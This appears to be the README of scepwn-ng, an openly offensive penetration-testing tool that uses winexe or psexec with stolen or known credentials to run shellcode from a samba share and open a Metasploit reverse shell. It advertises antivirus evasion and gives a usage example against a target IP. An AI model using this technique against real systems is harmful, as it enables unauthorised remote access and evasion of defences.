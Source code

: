 # scepwn-ng

scepwn-ng is a wrapper script for launching winexe/psexec at a target, which then runs shellcode exec from a samba share with a msf generated reverse shell. As the executable never touches disk, it is highly effective at evading a/v. 

```
Usage: scepwn-ng.rb [options]
-t, --target TARGET              Target IP address
-u, --user CREDENTIALS           Credentials in DOMAIN/USERNAME%PASSWORD format
-p, --port PORT                  Reverse shell port number (default: 443)
-s, --service SERVICE            winexe or psexec (default: winexe)
-h, --help                       Display this screen

Example: scepwn-ng.rb -u 'Administrator%Password1' -t 10.1.1.1 -s psexec -p 4444
```
